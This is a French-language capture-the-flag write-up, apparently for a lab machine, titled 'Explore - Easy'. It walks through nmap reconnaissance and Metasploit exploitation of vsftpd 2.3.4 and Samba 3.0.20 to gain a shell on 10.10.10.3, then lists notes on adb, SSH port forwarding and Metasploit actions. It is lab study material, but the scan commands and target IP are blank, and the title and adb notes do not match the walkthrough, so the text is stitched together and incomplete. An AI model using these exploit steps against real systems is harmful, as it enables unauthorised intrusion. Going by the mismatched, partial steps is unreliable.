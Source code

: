 
# Explore - Easy

### Objectif : 
    Se connecter à la machine et trouver les flags de user.txt et root.txt

### Information :

Addresse IP : ** **

### Process : 

##### Récolte d'information : 

###### Scan du réseau : 

```bash
# premier scan
nmap 
# deuxième scan
nmap 

```
*
    * 
    * 
    * 
    * 

###### résultat du premier scan
!["Étapes d'un pentest"](Machine-Lame-01.png)

###### résultats du deuxième scan

###### Détection des vulnérabilités :

Nous utiliserons métasploit pour détecter et exploiter les vulnérabilités

**Accès à métasploit**
```bash
msfconsole
```
###### Recherche de la vulnérabilité
```bash
# dans la console de metasploit
 search vsftpd 2.3.4
 use 0 
 setg RHOSTS 10.10.10.3
 exploit
```

###### Exploitation de la vulnérabilité

##### vulnérabilité 1 : vsftpd 2.3.4
!["Étapes d'un pentest"](Machine-Lame-6.png)

Étant donné que le premier ne marche pas, on va essayer de chercher d'autres vulnérabilités : essayons l'os découvert grâce au scan nmap : **samba 3.0.20** 
##### vulnérabilité 2 : samba 3.0.20
```bash
# dans la console de metasploit
 search samba 3.0.20
 use 0 
 setg RHOSTS 10.10.10.3
 setg LHOST <Mon addresse IP>
 exploit
```
!["Étapes d'un pentest"](Machine-Lame-04.png)


!["Étapes d'un pentest"](Machine-Lame-05.png)
Nous avons donc accès à la console de la cible
###### Recherche des fichier avec 
```bash
# cette commande nous donne les répertoires dans lesquelles se trouves les fichiers qu'on recherche
find / -name "nom_du_fichier" 2>/dev/null
```

!["Étapes d'un pentest"](Machine-Lame-07.png)

### Ce que j'ai Appris :

* utilisation de adb pour les androids : 
```bash
adb shell :  pour avoir accès au shell de adb 
adb devices : lister tous les appareils 
adb <device_name> disconnect 
adb root / unroot : passer en root ou pas
```

* Tunnel pivoting avec ssh :  
```bash
ssh -L [MonPort]:IPAdresstoconnect:[MachinePort I Want to Bind] IPAdresstoconnect -p [ normal port to connect] 
```
* Approfondissement metasploit : 
```bash
show actions
set action <nom de l'action ou numero> 
```